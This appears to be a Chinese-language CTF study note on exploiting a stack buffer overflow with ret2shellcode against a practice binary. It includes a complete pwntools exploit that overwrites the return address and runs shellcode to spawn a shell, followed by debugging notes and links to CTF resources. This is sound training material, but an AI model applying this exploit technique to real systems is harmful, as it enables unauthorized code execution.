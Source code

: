 

那么payload要求：

1. shellcode：执行sh
2. n字节的垃圾数据：溢出到ret_addr
3. 容纳shellcode的地址：buf_addr+所有数据(0x20)



那么exp：

```
from pwn import *
import re

context.arch = 'amd64'
shellcode = asm(shellcraft.sh())

#r = remote('challenge-c3b38bfcad408f15.sandbox.ctfhub.com',33975)

r = process('./pwn')
buf_addr = r.recvuntil(']')
buf_addr = int(buf_addr[-15:-1],16)#处理数据

shellcode_addr = buf_addr + 32 # 0x20
payload = b'a'*(0x18) + p64(shellcode_addr)+shellcode

r.sendline(payload)
r.interactive()
```



[CTFer成长日记8：栈溢出利用—ret2shellcode - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/463756050)



#### edb-debuger调试：原理测试

![image-20240419175530665](${images}/image-20240419175530665.png)

64位

![image-20240419175633869](${images}/image-20240419175633869.png)

分析：

栈溢出、堆栈执行、有rwx

提出：

ret2text、ret2shellcode



函数查找

CTRL+SHIFT+F

![image-20240419180030506](${images}/image-20240419180030506.png)


[CTF-wiki]: https://ctf-wiki.org/pwn/linux/user-mode/environment/	"ctf-wiki知识库"
[CTFHub]: https://www.ctfhub.com/#/skilltree	"ctfhub技能树"
[攻防世界]: https://adworld.xctf.org.cn/challenges/list	"题库"